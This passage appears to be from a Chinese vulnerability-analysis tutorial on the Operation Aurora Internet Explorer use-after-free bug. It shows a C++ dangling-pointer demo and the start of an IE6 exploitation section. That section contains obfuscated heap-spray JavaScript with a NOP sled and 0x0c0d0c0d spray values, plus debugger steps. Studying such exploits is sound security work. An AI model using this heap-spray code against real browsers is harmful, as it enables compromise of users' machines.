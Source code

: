 ```c++

        // 使用已释放的指针去调用成员函数
	std::cout << "p.m_Num = " << p->GetNum() << std::endl;

	system("pause");
	return 0;
}
```

### 2.10 引发漏洞的语句
引发漏洞最主要的三条语句：
![](/images/极光行动漏洞分析-漏洞成因分析/79297be2a7030dc93ea210d0ca12879394cea9281bb8d0dcd7ba76696fb770c8.png "引发漏洞的语句")

---

## 3. 漏洞利用

既然都知道漏洞成因了，就可以进行漏洞利用了。这里只针对`IE6.0`利用一下，其他的版本又要去考虑绕过保护机制的一些东西了。

* 首先将堆喷射的代码改一改：

```javascript
function gGyfqFvCYPRmXbnUWzBrulnwZVAJpUifKDiAZEKOqNHrfziGDtUOBqjYCtATBhClJkXjezUcmxBlfEX() {
	var mWgWGhyqOVxBPqtnAFWAyxhLnqBNaRNnkKvTfAwVuvOyCnGUwBPZEzSZtKpqGZUvPO = uKDkvADSMMCpMpWmBjzJRTRBOHuctmWYaRSFYKUgfGAorttjbgqtzbHoZkWlIhITyAOOkvmTpOpLxrfsUWzDUdnsdEwzsu('%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090');
	var uafwHGfWUmxkIam = uKDkvADSMMCpMpWmBjzJRTRBOHuctmWYaRSFYKUgfGAorttjbgqtzbHoZkWlIhITyAOOkvmTpOpLxrfsUWzDUdnsdEwzsu("%" + "u" + "0" + "c" + "0" + "d" + "%u" + "0" + "c" + "0" + "d");
	do {
		uafwHGfWUmxkIam += uafwHGfWUmxkIam
	} while (uafwHGfWUmxkIam.length < 0xd0000);
	for (S = 0; S < 150; S++) JsgdlqtHVnnWiFMCpdxJheQbdjITPhdkurJqwIMuMxJnHf[S] = uafwHGfWUmxkIam + mWgWGhyqOVxBPqtnAFWAyxhLnqBNaRNnkKvTfAwVuvOyCnGUwBPZEzSZtKpqGZUvPO;
}
```

* 接着在调用`CElement::GetDocPtr`的位置下`条件断点`：`ECX==0x0C0D0C0D`